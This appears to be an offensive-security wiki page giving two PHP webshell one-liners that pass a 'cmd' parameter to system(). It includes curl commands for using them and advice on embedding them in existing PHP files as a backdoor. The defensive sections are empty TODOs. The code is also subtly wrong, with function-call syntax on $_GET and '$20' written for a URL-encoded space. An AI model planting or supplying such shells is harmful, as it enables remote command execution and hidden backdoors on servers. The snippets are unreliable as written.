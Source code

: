 # Basic PHP Webshell Oneliner
## Summary

One of the easiest methods to obtain access to a PHP enabled app, is to somehow plant a webshell onto the server. There are many fancy PHP webshells out there, but this page will cover a basic one that is easy to remember and type, and is easy to embed into an existing PHP file as a backdoor.

## Prerequisites

A PHP enabled server, typically apache.

## Setup

To set this up, all that is needed is access to a PHP enabled server somehow. This can be through a vulnerability or any other type of access.

## Execution

### Method 1 - Shortest Possible

This is the shortest possible PHP webshell, the output from commands ran are not very pretty and will likely get mangled:

```php
<?php system($_GET('cmd')); ?>
```

To use this webshell, the command must be url encoded and must be formatted like so:

```bash
curl http://ip/shell.php?cmd=whoami
curl http://ip/shell.php?cmd=ip$20a
```

#### Indicators of Compromise

TODO

### Method 2 - Slightly Prettier

This basic webshell wraps the output of the command into HTML pre tags, this will usually help prevent the output of the command from being mangled on the page.

```php
<?php echo "<pre>"; system($_GET('cmd')); echo "</pre>"; ?>
```

To use this webshell, the command must be url encoded and must be formatted like so:

```bash
curl http://ip/shell.php?cmd=whoami
curl http://ip/shell.php?cmd=ip$20a
```

#### Indicators of Compromise

TODO